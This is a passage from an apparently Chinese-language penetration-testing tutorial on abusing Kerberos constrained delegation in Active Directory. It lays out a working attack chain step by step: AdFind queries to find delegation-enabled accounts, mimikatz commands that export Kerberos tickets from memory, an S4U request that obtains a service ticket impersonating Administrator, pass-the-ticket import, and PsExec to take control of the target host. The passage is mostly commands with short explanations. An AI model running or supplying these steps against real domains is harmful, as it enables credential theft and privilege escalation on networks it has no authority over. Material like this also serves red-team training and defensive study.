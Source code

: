   
3）之后会回去到两个ST。将ST2导入当前会话。使用minikazi导入。  

```
kerberos::ptt TGS_Administrator@qiyou.com@QIYOU.COM_cifs~dm08.qiyou.com@QIYOU.COM.kirbi

```

  
然后使用微软官方的PSEXEC获取目标主机权限。  
  
https://www.crisprx.top/archives/429  
  
https://skewwg.github.io/2020/11/25/yue-shu-wei-pai-li-yong/  
  
场景：  
  
test为域内用户并且服务账户。  
  
查找可约束委派的主机和用户  

```
AdFind.exe -b &#34;DC=starcity,DC=dmz&#34; -f &#34;(&(samAccountType=805306369)(msds-allowedtodelegateto=*))&#34; cn distinguishedName msds-allowedtodelegateto

```

  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeVqfWRRkaTXPAZbTTWmoevnsvibkeCqOBoHVeKz28KaqvT3vjDReGxyFBkYl3IibG2V9OXJfwFkV4xg/640?wx_fmt=png&from=appmsg "")  
  
被设置委派的机器为FILESERVER，表示任何用户可以委派此机器来访问EMP机器上的CIFS服务。  
  
在FILESERVER机器上攻击EMP机器，获取EMP机器的管理员权限。  
  
首先使用mimikazt导出机器上的所有凭证。  

```
mimikatz.exe &#34;privilege::debug&#34; &#34;sekurlsa::tickets /export&#34; exit

```

  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeVqfWRRkaTXPAZbTTWmoevnFhxma2hYNNjGlg2Mibo3ykSf128eUOXVMuRo2gIaTBro3F1Mo6ctyKw/640?wx_fmt=png&from=appmsg "")  
  
获取st1和st2  

```
tgs::s4u /tgt:[0;3e7]-2-1-40e10000-FILESERVER$@krbtgt-STARCITY.DMZ.kirbi /user:Administrator@starcity.dmz /service:cifs/emp.starcity.dmz

```

  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeVqfWRRkaTXPAZbTTWmoevn0Qu78dBIkiaTmL7ncDEGI7c53u035ia0LMvKJXYSD2r2CNdJotV6w1Uw/640?wx_fmt=png&from=appmsg "")  
  
使用minikazt将st2导入当前机器  

```
mimikatz.exe &#34;kerberos::ptt TGS_Administrator@starcity.dmz@STARCITY.DMZ_cifs~emp.starcity.dmz@STARCITY.DMZ.kirbi&#34; exit

```
